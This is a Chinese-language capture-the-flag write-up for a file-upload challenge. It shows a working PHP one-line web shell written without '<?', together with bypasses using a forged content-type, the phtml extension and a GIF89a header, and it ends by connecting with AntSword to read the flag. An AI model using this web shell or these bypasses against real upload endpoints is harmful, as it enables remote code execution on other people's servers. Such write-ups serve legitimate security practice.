








打开发现是一个文件上传，这里直接试试上传我们的一句话木马，显示



我们抓个包看看，能抓到包，说明在后端验证，我们修改content-type为image/jpeg试试，显示



php环境可以尝试的后缀还有php1,php2,php3,php4,php5,phtmI,pht，我们这里试试，发现phtml可以用但是又给我们显示



也就是说过滤掉了<?，所以可以用不含<?的一句话木马

```
<script language="php">eval($_POST['mixbp']);</script>
```

还是不行



猜测这里应该是对图片头进行了校验，在我们的一句话木马前添加图片头GIF89a，添加三个占位符然后使用hex修改也可



上传成功



用蚁剑连接，终端输入cat/flag即可



